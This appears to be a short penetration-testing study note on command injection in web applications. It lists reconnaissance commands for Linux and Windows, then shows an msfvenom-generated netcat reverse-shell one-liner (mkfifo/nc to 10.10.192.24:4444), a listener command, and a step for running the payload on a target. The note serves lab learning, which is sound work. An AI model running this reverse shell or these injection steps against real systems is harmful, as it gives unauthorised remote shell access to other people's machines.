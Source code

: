 If WebApp User Inputs are accepted and run as System Commands

# Active Command Injection

If User Input is returned as HTML Element

Commands to test:

Linux
```
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```

Windows

```
whoami
ver
ipconfig
tasklist
netstat -an
```


# Reverse Shell

=> Code to execute Code/Commands on the Target

Aim is for the Target to build a Connection to myself


**[[msfvenom]]** => creates and encodes a netcat reverse Shell (create an payload Command which has to run on the Target)

Create a Payload on the local Machine:

`msfvenom -p cmd/unix/reverse_netcat lhost=[localhost ip] lport=4444 R`

Output:

`mkfifo /tmp/pshz; nc 10.10.192.24 4444 0</tmp/pshz | /bin/sh >/tmp/pshz 2>&1; rm /tmp/pshz`

Start a [[netcat]] Listener on the Local Machine:

`nc -lvp 4444`

- use port from msfvenom

Run the Paylod Command on the Target:

`.RUN mkfifo /tmp/pshz; nc 10.10.192.24 4444 0</tmp/pshz | /bin/sh >/tmp/pshz 2>&1; rm /tmp/pshz`

We should get a connection with netcat